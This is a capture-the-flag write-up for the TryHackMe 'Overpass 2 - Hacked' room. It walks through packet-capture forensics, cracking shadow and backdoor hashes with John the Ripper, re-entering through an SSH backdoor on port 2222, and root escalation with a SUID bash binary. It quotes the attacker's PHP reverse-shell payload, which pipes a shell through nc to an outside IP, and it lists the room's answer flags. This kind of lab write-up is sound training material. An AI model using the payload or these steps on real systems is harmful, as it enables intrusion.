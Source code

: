 ```yaml
---
title: Overpass 2 - Hacked
layout: post
author: Bit Criminals Team
date: 2021-06-28 21:55:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/overpass2hacked
---
```


This room was not like the usual ones. We had to first analyze a .pcapng file. 

# Forensics - Analyse the PCAP

**What was the URL of the page they used to upload a reverse shell?**

![](/images/Mars/overpass1.png)

On close observation, you will find that the page is ```/development/```

**What payload did the attacker use to gain access?**

![](/images/Mars/overpass2.png)

When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was 
```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

**What password did the attacker use to privesc?**

![](/images/Mars/overpass3.png)

On following the TCP streams available we found this goldmine of information. Clearly the password the attacker used was the password of James.
```whenevernoteartinstant```

**How did the attacker establish persistence?**

![](/images/Mars/overpass4.png)

On going further through the above TCP stream, we understood that the attacker planted an ssh backdoor to establish persistence. Clearly, he did so by cloning the following github repository.
```https://github.com/NinjaJc01/ssh-backdoor```

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

Futher down in the same TCP stream, the attacker viewed the "/etc/shadow" file. Here we found the password hashes of five users. (Refer the image above)
We copied the password hashes into another file and used John the Ripper to crack the hashes. We used the fasttrack wordlist as per the requirment. The command used was
>john --wordlist=/usr/share/wordlists/fasttrack.txt hash1

![](/images/Mars/overpass6.png)

Hence ```4``` hashes were cracked.

# Research - Analyse the code

The attacker created a backdoor using the code from ***https://github.com/NinjaJc01/ssh-backdoor***. So we cloned this repository to analyze the code.

**What's the default hash for the backdoor?**

In the main.go file, we found the default hash for the back door. Also note the port 2222 which the attacker used.

![](/images/Mars/overpass7.png)

```bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3```

**What's the hardcoded salt for the backdoor?**

Futher down in the same file we found the hardcoded salt for the backdoor.

![](/images/Mars/overpass8.png)

```1c362db832f3f864c8c2fe05f2002a05```

**What was the hash that the attacker used? - go back to the PCAP for this!**

![](/images/Mars/overpass5.png)

```6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed```

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

We created a file with the above hash and the hardcoded salt for the backdoor in the format hash$salt ahd used John the Ripper.
>john -form=dynamic='sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash2
The password was ```november16```


# Attack - Get back in!

**The attacker defaced the website. What message did they leave as a heading?**

On opening the website "http://<box-ip>, we foind this.

![](/images/Mars/overpass10.png)

```H4ck3d by CooctusClan```

**What's the user flag?**

We had to begin with nmap scan, but this time it was unusually long. But we know that the attacker used port 2222. So we logged in at port 2222 uing ssh
>ssh -p 2222 james@<10.10.114.96>

Finally result of the nmap scan came!
![](/images/Mars/overpass9.png)

We found the user falg in user.txt in the home directory of james.

![](/images/Mars/overpass11.png)

```thm{d119b4fa8c497ddb0525f7ad200e6567}```

**What's the root flag?**

Now comes the best part, privelage escelation.
We tried "sudo -l" as usual but this time the old password was incorrect. This meant the password was changed. The attacker is a smart guy!
Searching for a way to break in, we looked at all the files in the home directory. We found an unusual executable file owned by root.

![](/images/Mars/overpass12.png)

On execution using "./.suid_bash" it gave us a shell, but the user was still james. So this time we executed
>./.suid_bash -p
 We became the root!!!

![](/images/Mars/overpass13.png)

```thm{d53b2684f169360bb9606c333873144d}```










